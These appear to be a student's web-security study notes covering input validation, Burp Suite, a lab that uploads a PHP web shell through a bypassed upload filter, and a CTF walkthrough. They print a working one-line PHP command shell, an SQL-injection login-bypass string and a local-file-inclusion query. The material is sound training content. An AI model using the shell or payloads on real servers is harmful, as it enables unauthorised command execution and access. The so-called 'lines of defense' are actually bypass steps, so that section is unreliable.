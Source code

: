 # 🧠 Day 2: Client-Side vs Server-Side Validation, Burp Suite, and CTF Walkthrough

## 📚 Topics Covered

### ✅ Client-Side vs Server-Side Validation

| **Aspect**           | **Client-Side Validation**                 | **Server-Side Validation**                     |
| -------------------- | ------------------------------------------ | ---------------------------------------------- |
| Performed On         | User’s browser                             | Web server                                     |
| Speed                | Faster (no server round trip)              | Slower (requires server communication)         |
| Security             | Less secure (can be bypassed by attackers) | More secure (cannot be easily bypassed)        |
| Example Technologies | JavaScript, HTML5 input types              | PHP, Python, Node.js, etc.                     |
| Purpose              | Improve UX, reduce server load             | Ensure data integrity and application security |

🔒 **Conclusion:** Always implement both types of validation. Never rely solely on client-side checks.

---

## 🛠️ Burp Suite Overview

**Burp Suite** is a powerful web vulnerability scanner and proxy tool used by ethical hackers and pentesters to:

- Intercept HTTP/HTTPS traffic between browser and server.
- Modify requests before they reach the server.
- Analyze headers, cookies, and form data.
- Perform automated scans and manual testing.

> 💡 **Definition:** Burp Suite acts as a **man-in-the-middle** proxy that captures and modifies HTTP requests/responses between your browser (frontend) and the server (backend).

### ⚔️ 3 Lines of Defense in Web Applications

1. **Source Code Formatting** – Modifying elements directly via browser dev tools.
2. **Header Analysis** – Viewing and editing request headers.
3. **Burp Suite Interception** – Full control of data flow using proxy.

If none of the above allow you to bypass validation, it is likely **server-side validated**.

> 🧠 **Note:** `.htaccess` or `.hea` files are often used to enforce server-side rules.

---

## 🔬 Lab: Upload PHP Web Shell Using Burp Suitre

### 🎯 Objective:

Exploit a vulnerable file upload feature to gain shell access to the server.

### 🧪 Steps Followed:

1. **Prepare a PHP File** disguised as a `.png`, like `shell.php.png`, containing: <?php system($_GET['cmd']); ?>
2. Inspect the page, **modify the file input** accept attribute if needed.
3. Switch Burp Intercept **ON**.
4. **Upload the file** → Burp intercepts the request.
5. In Burp, change:  
        ```**filename="shell.php.png"**```  
       ``` **Content-Type: image/png**```  
   to:   
        ```**filename="shell.php"**```  
       ``` **Content-Type: application/x-php**```  
6. **Forward the request** → Server accepts it.
7. **Access the file** via URL (e.g., ```/uploads/shell.php```) and use ```?cmd=ls```.

### 🔍 Wappalyzer Extension
Wappalyzer is a browser extension used to identify backend and frontend tech stack such as:

1. Languages (PHP, Python, Ruby)
2. Web servers (Apache, Nginx)
3. Frameworks (Laravel, Django)
4. CMS (WordPress, Joomla)

> 💡 **Note**:You can also analyze backend headers via Burp Repeater or server error messages.
---

### 🕹️ CTF Walkthrough
The CTF involved exploiting 3 vulnerabilities:

1️⃣ **SQL Injection (Authentication Bypass)**

    Used SQLi payload on login page:
    Username: admin'--
    Password: (blank)
    This bypasses login logic and logs you in as admin.

2️⃣ Security Misconfiguration

    Inspecting HTML revealed hardcoded credentials:
    <!-- Admin Username: administrator -->
    <!-- Admin Password: AdminPass2024 -->
    <!-- Admin URL: /admin -->  
    Used them to login into admin panel.

3️⃣ LFI Attack (Local File Inclusion)

    Input field in admin panel was vulnerable:
    ?q=flag.txt
    Retrieved flag from flag.txt

🏁 **Final Flag:**
```CTF{sql_injection_and_lfi_chain_complete}```




		




